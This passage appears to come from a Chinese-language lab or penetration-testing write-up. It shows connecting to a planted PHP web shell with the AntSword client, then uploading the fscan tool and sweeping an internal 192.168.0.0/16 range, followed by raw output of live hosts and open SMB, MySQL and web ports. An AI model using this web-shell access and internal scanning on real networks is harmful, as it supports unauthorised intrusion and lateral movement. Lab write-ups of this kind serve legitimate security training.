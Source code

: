 

### 蚁剑连接

```bash
http://192.168.26.101/xxx.php
xxx
```

![image-20241124095926375](https://image.201068.xyz/assets/writeup/image-20241124095926375.png)

![image-20241124100127201](https://image.201068.xyz/assets/writeup/image-20241124100127201.png)

### 上传fscan

```bash
chmod +x fscan
./fscan -h 192.168.0.0/16 > fscan.txt
```



```bash
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 192.168.1.2     is alive
(icmp) Target 192.168.25.50   is alive
(icmp) Target 192.168.25.100  is alive
(icmp) Target 192.168.25.102  is alive
(icmp) Target 192.168.26.100  is alive
(icmp) Target 192.168.26.101  is alive
(icmp) Target 192.168.27.100  is alive
(icmp) Target 192.168.28.10   is alive
(icmp) Target 192.168.28.100  is alive
(icmp) Target 192.168.28.101  is alive
(icmp) Target 192.168.28.200  is alive
(icmp) Target 192.168.28.201  is alive
(icmp) Target 192.168.28.250  is alive
[*] LiveTop 192.168.0.0/16   段存活数量为: 13
[*] LiveTop 192.168.28.0/24  段存活数量为: 6
[*] LiveTop 192.168.25.0/24  段存活数量为: 3
[*] LiveTop 192.168.26.0/24  段存活数量为: 2
[*] LiveTop 192.168.1.0/24   段存活数量为: 1
[*] LiveTop 192.168.27.0/24  段存活数量为: 1
[*] Icmp alive hosts len is: 13
192.168.25.50:8000 open
192.168.25.50:3306 open
192.168.25.100:3306 open
192.168.28.100:139 open
192.168.27.100:445 open
192.168.28.100:135 open
192.168.27.100:139 open
192.168.27.100:135 open
192.168.28.201:443 open
192.168.28.10:443 open
192.168.28.200:443 open
192.168.26.100:445 open
192.168.26.100:139 open
192.168.26.100:135 open
192.168.1.2:443 open
192.168.28.201:80 open
192.168.28.200:80 open
192.168.25.102:80 open
192.168.25.100:80 open
```